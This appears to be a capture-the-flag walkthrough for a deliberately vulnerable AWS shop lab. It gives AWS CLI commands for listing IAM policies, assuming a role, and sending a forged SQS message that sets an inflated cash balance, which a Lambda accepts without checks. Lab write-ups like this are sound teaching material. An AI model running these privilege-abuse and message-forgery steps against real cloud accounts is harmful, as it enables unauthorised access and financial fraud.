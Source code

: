   
1. The attacker accesses the web page and identifies the features first

    [ page ] → what can do  
    /        → User can buy items.  
    /receipt → User can see the purchase.  
    /charge  → User can charge the cash.  
  
---

2. The attacker checks the privileges it has
    ```bash
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials
    aws configure --profile [profile_name]
    # This command will give you the ARN & full name of you user.
    aws --profile [profile_name] sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile [profile_name] iam list-user-policies --user-name [user_name]
    # This command will view the permissions granted to inline policies.
    aws --profile [profile_name] iam get-user-policy --user-name [user_name] --policy-name [polict_name]
    ```  
    ※ Attacker finds that they have assume-role privileges for a particular role.  
    ※ Attacker looks for clues about how to attack using this privilege.
   
---  

3. Find the web source code. By analyzing the source code, the attacker checks the format of message sent to the SQS service
  
    ※ The website has a github address exposed as an annotation.  
    → https://github.com/BoB12-C-G-V/FLAG-Shop
  
    < Code Analysis Results >  
  -When charging the cash, a message is sent to the SQS service.  
  -The lambda function does not verify the received message.  
  -The message format is `{"charge_amount" : cash}`  
  
    ※ Attacker plans to forge the cache and send message to the SQS service.  
  
---  

4. Assume the the sending message role about SQS service
    ```bash
    # This command will get you credentials for the role that can send message to SQS service
    aws --profile [profile_user] sts assume-role --role-arn [role_arn] --role-session-name [whatever_you_want_here]
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials 
    aws configure --profile [assumed_profile_name]
    # This command will appends the obtained session token to the ~/.aws/credentials file
    echo "aws_session_token = {token}" >> ~/.aws/credentials
    ```  
  
---  
  
5. The attacker, who possesses the necessary permissions, sends a forged message to the SQS service queue  
    ```bash
    # This command wil get you queue-url of SQS service
    aws --profile [assumed_profile_name] sqs get-queue-url --queue-name cash_charging_queue
    # This command wil sends a forged message to the SQS service queue
    aws --profile [assumed_profile_name] sqs send-message --queue-url [queue_url] --message-body '{"charge_amount": 100000000}'
    ```  
  
---  
  
6. Check the changed assets, purchase FLAG and check the secret-string
